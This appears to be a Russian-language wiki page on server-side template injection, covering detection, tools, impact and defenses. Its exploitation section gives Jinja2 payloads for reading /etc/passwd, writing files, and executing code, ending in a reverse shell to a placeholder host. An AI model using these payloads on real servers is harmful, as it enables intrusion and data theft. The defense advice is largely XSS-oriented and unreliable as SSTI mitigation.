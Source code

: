 # уязвимость/атака

## Описание
SSTI (server side template injection) - внедрение шаблонов на стороне сервера.
Механизмы шаблонов широко используются веб-приложениями для представления динамических данных через веб-страницы и электронные письма. Небезопасное встраивание пользовательского ввода в шаблоны позволяет внедрить шаблон на стороне сервера. Template Injection можно использовать для прямой атаки на внутренние компоненты веб-серверов и получения удаленного выполнения кода (RCE), превращая каждое уязвимое приложение в потенциальную опорную точку.

## Классификация


Client-side (CS) / Server-side Template Injection (SS)

SSTI различается по типу установленного шаблонизатора: 
- Smarty (PHP)
- Mako (Python)
- Apache Velocity (Java)
- jinja2 (Python)
- Twig (PHP)

[Link](https://www.youtube.com/watch?v=3cT0uE7Y87s)
## Условия
- ОС: любая
- язык: зависит от шаблонизатора (python, php, java)
- компоненты: фреймворк
- настройки: разные


## Детектирование


Для детектирования можно использовать tplmap и ручное тестирование путем ввода различных шаблонов, например:
`{{  7*7  }}`

`{{ 7 * '7'}}`

и т.д. 

Выполнение кода, введенного в шаблоне, сигнализирует о наличии данной  уязвимости.
В некоторых случаях одно выражаение может приводить к разным ответам сервера (в зависимость от того, какой шаблонизатор используется). Например, `{{7*’7′}}` вернёт 49, если используется Twig, 7777777, если используется Jinja2 и не вернёт ничего, если шаблонизатор не используется.


![Рисунок 1](https://1.bp.blogspot.com/-txouq1ZZJw4/Vayv3Np5VGI/AAAAAAAAAFY/6zY9F6SFSEY/s640/Screen%2BShot%2B2015-07-20%2Bat%2B09.21.56.png)

## Информация:


https://portswigger.net/blog/server-side-template-injection
https://nvisium.com/blog/2015/12/07/injecting-flask.html
https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html
https://www.securitylab.ru/analytics/480275.php
https://defcon.ru/web-security/3840/




## Эксплуатация


### Дамп всех используемых классов (Dump all used classes)


`{{ [].class.base.subclasses() }}`

`{{''.class.mro()[1].subclasses()}}`

`{{''.__class__.__mro__[2].__subclasses__()}}`

### Дамп всех переменных конфигурации (Dump all config variables)


	{% for key, value in config.iteritems() %}
		<dt>{{ key|e }}</dt>
   		<dd>{{ value|e }}</dd>
	{% endfor %}

### Чтение из удаленных файлов (Reading remote files)


`''.__class__.__mro__[2].__subclasses__()[40] = File class`

`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}`

`{{config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}`



### Запись в удаленные файлы (Writing into remote files)
`{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt',`

`'w').write('Hello here !') }}`



### Удаленное выполнение кода (RCE)


`{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from`

`subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config`

`{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config`

`{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to`

`evil host`










## Инструменты


Tplmap - это инструмент от [epinna](https://github.com/epinna), который помогает эксплуатировать уязвимость SSTI с помощью ряда методов выхода из песочницы, чтобы получить доступ к базовой операционной системе. Он может использовать несколько контекстов кода и сценариев слепого внедрения. [Github](https://github.com/epinna/tplmap)


search.py скрипт от DoubleSigma. [Link](https://github.com/PequalsNP-team/pequalsnp-team.github.io/blob/master/assets/search.py).


## Ущерб


Получение информации с сервера, к которой мы не имеем доступа. Возможность удаленного внедрения кода в серверный скрипт.


## Защита
### Основные меры


Экранирование - технически реализация экранирования заключается в замене определенных символов их безопасными аналогами - html-кодами. Как правило, считаются опасными и подлежат замене 5 символов - это кавычки, знаки больше/меньше и амперсанд, то есть `&`, `<`, `>`, `"`, `'` 


`& --> &amp;`
 
` < --> &lt;`

` > --> &gt;`

` " --> &quot;`

` ' --> &#x27;   ( &apos;  не рекомендуется)`

` / --> &#x2F; `


Политика защиты контента (CSP) - в качестве последней линии защиты вы можете использовать Content Security Policy (CSP), чтобы уменьшить серьезность любых уязвимостей XSS, которые все еще возникают.


Политика защиты контента (CSP) — это дополнительный уровень безопасности, который помогает обнаружить и смягчить некоторые виды атак, в том числе межсайтовый скриптинг (XSS) и инъекцию данных. Эти атаки используются для всего, от кражи данных до порчи сайтов и распространения вредоносного ПО.


### Превентивные меры
Ограничение доступа к внутренней инфраструктуре для потенциально подверженных SSRF серверов.
Обработка данных, введенных пользователем. 


Защита от уязвимостей локального включения файлов (LFI) . Это означает, что вы не должны позволять пользователям контролировать путь к такому файлу или его содержимое.
## Дополнительно
http://xgu.ru/wiki/%D0%A8%D0%B0%D0%B1%D0%BB%D0%BE%D0%BD%D0%B8%D0%B7%D0%B0%D1%82%D0%BE%D1%80 - шаблонизаторы


## Обход защиты


Обход фильтров (Filters bypass) - разработчики включают в web-приложения специальные фильтры для проверки содержимого запросов пользователя на наличие «инородных» данных и тем самым усложняя задачу нарушителя. Однако существуют и появляются новые методы, позволяющие обмануть проверку.
